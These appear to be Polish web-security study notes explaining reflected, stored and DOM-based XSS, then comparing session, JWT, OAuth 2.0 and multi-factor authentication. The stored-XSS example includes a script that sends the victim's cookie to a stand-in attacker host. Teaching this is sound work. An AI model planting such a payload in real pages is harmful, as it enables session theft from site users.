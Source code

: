 ### 6.3. Atak XSS - pojęcie i przykłady

**XSS (Cross-Site Scripting)** - wstrzyknięcie złośliwego JavaScript do strony webowej, wykonywany w przeglądarce ofiary.

**Typy ataków XSS:**

**Reflected XSS (odbity):**
- Kod JavaScript w URL lub formularzu
- Wykonany natychmiast w odpowiedzi serwera
- Wymaga nakłonienia ofiary do kliknięcia w link

**Przykład:**
```html
<!-- URL: http://example.com/search?q=<script>alert('XSS')</script> -->
<p>Wyniki wyszukiwania dla: <script>alert('XSS')</script></p>
```

**Stored XSS (przechowany):**
- Kod zapisany w bazie danych (komentarze, profile)
- Wykonywany przy każdym wyświetleniu
- Najbardziej niebezpieczny typ

**Przykład:**
```html
<!-- Komentarz w bazie: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script> -->
```

**DOM-based XSS:**
- Manipulacja DOM przez JavaScript
- Atak całkowicie po stronie klienta

### 6.4. Porównanie metod uwierzytelniania użytkowników

**Session-based Authentication:**
- Serwer przechowuje informacje o sesji
- Klient otrzymuje session ID w cookie
- **Zalety:** bezpieczeństwo, kontrola po stronie serwera
- **Wady:** problemy ze skalowalnością

**Token-based Authentication (JWT):**
- Bezstanowy token zawierający informacje użytkownika
- Podpisany cyfrowo, self-contained
- **Zalety:** skalowalność, niezależność od serwera
- **Wady:** trudności z unieważnieniem, rozmiar tokenu

**OAuth 2.0:**
- Standard autoryzacji dla aplikacji trzecich
- Delegacja uprawnień bez udostępniania haseł
- **Zastosowanie:** logowanie przez Google/Facebook

**Multi-Factor Authentication (MFA):**
- Kombinacja czynników: wiedza, posiadanie, biometria
- **Przykład:** hasło + SMS + odcisk palca
- Znacznie zwiększa bezpieczeństwo
